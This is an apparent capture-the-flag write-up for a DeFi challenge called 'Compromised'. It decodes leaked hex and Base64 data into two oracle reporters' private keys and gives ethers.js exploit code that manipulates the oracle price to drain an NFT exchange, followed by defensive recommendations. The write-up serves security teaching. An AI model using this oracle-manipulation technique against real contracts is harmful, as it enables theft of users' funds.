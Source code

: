 # Compromised

## analyse

> While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. Here’s a snippet:

```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

> A related on-chain exchange is selling (absurdly overpriced) collectibles called “DVNFT”, now at 999 ETH each.
>
> This price is fetched from an on-chain oracle, based on 3 trusted reporters: `0xA732...A105`,`0xe924...9D15` and `0x81A5...850c`.
>
> Starting with just 0.1 ETH in balance, pass the challenge by obtaining all ETH available in the exchange.

### the whole analyse

- Exchange：it is a NFT trading institution. we can buy and sell NFT from it. The price of NFT in this store is depended on the Oracle.

- TrustfulOracle：This is an oracle contract. it will post the price of the NFT in the traing institution. Anyone could get the information from the oracle but only the trusted source and initializer can change the price of the NFT
- TrustfulOracleInitializer：it is just an Initializing contract, not containing important content.

### vulnerable analyse

This level is quite different from the levels we met before. When we completely studied the code, we have learned the whole logic of this topic. But we found that it is Impeccable: we need to buy a NFT but one NFT worths 999 ETH that we cant pay with enough money. From the code, one possible solution is to change the price to an very low price and buy it. All we can do is to call the function function `postPrice()`.

```solidity
function postPrice(string calldata symbol, uint256 newPrice) external onlyTrustedSource {
	_setPrice(msg.sender, symbol, newPrice);
}

modifier onlyTrustedSource() {
    require(hasRole(TRUSTED_SOURCE_ROLE, msg.sender));
    _;
}
```

but only the trustedSource can call it. From the `compromised.challenge.js` we know that the sources is the three of them.

```js
const sources = [
    '0xA73209FB1a42495120166736362A1DfA9F95A105',
    '0xe92401A4d3af5E446d93D11EEc806b1462b39D15',
    '0x81A5D6E50C214044bE44cA0CB057fe119097850c'
];
```

Once finding their private key, we can control the oracle and change the price. By the way, we at least need 2 private keys to change the price since the function `_sort()`, `_computeMedianPrice()`, `getMedianPrice()`, We choose the median as the final price.

### tips analyse

from the tips the level privides to us, we found it very strange. It is some numbers. What if they are substitutes for private keys? I mean they can be translated into private keys. In the internet, leakage events of private key often happents, they flow on the network as binary streams like this. In this tips, the form of the number is bytes, now we translate it into string(ASCII)：

```
decode

original data
4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34

####################################################################################################
bytes  ====ASCII====> string
this is the site that it can help you translate:
https://onlinestringtools.com/convert-bytes-to-string
####################################################################################################

translated data
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5

MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

This does not look like a private key, yet. We are looking for something that starts with `0x` followed by 64 random hex characters. Although it does look like some encoded data. And what encoding would someone use to transfer (binary) data across networks? That has to be Base64. Passing it to a Base64 decoder we get :

```
decode

original data
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5

MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4

####################################################################################################
string  ====Base64====> string
this is the site that it can help you translate:
https://www.base64decode.org/
####################################################################################################

translated data
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

now we get two private keys! That means that we can change the price in the oracle contract. 

### change price and buy NFT

1.create wallet by private keys

```js
	//create wallet by private keys
    const sources1 = new ethers.Wallet("0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9", ethers.provider);
    const sources2 = new ethers.Wallet("0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48", ethers.provider);
```

2.set the price to 1 wei

```js
    //set the price to 1 wei
    await this.oracle.connect(sources1).postPrice("DVNFT", 1);
    await this.oracle.connect(sources2).postPrice("DVNFT", 1);
```

3.buy a NFT

```js
    //buy a NFT
    await this.exchange.connect(attacker).buyOne({value:1});
```

4.change the price to the exchange contract's balance so that exchange contract can sell it

```js
    //change the price to the exchange contract's balance so that exchange contract can sell it
    _balance =  ethers.provider.getBalance(this.exchange.address);
    await this.oracle.connect(sources1).postPrice("DVNFT", _balance);
    await this.oracle.connect(sources2).postPrice("DVNFT", _balance);
```

5.sell the NFT

```js
    //sell the NFT
    await this.nftToken.connect(attacker).approve(this.exchange.address, 0);
    await this.exchange.connect(attacker).sellOne(0);
```

6.restore the initial price

```js
    //restore the initial price
    await this.oracle.connect(sources1).postPrice("DVNFT", INITIAL_NFT_PRICE);
    await this.oracle.connect(sources2).postPrice("DVNFT", INITIAL_NFT_PRICE);
```

## solution

- test

```js
it('Exploit', async function () {        
    /** CODE YOUR EXPLOIT HERE */
    //create wallet by private keys
    const sources1 = new ethers.Wallet("0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9", ethers.provider);
    const sources2 = new ethers.Wallet("0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48", ethers.provider);

    //set the price to 1 wei
    await this.oracle.connect(sources1).postPrice("DVNFT", 1);
    await this.oracle.connect(sources2).postPrice("DVNFT", 1);

    //buy a NFT
    await this.exchange.connect(attacker).buyOne({value:1});

    //change the price to the exchange contract's balance so that exchange contract can sell it
    _balance =  ethers.provider.getBalance(this.exchange.address);
    await this.oracle.connect(sources1).postPrice("DVNFT", _balance);
    await this.oracle.connect(sources2).postPrice("DVNFT", _balance);

    //sell the NFT
    await this.nftToken.connect(attacker).approve(this.exchange.address, 0);
    await this.exchange.connect(attacker).sellOne(0);

    //restore the initial price
    await this.oracle.connect(sources1).postPrice("DVNFT", INITIAL_NFT_PRICE);
    await this.oracle.connect(sources2).postPrice("DVNFT", INITIAL_NFT_PRICE);

});
```

## Recommendations

Don’t store sensitive data onto any blockchain. Not even if it’s encoded. If someone can benefit from that information, it will be decoded for profit. Remember that one of the main aspects of the blockchains are that they intend to be transparent, meaning that all the information is public and reachable.

Also, never share your private keys or store them online. If you have to store them anywhere, try to do it on cold storage (something that is not connected to the internet) like a USB drive and keep it safe.

Here’s an [article](https://consensys.github.io/smart-contract-best-practices/attacks/oracle-manipulation/) written by the highly reputable blockchain security company Consensys that presents some vulnerabilities and common pitfalls around oracles and price manipulation.

































































































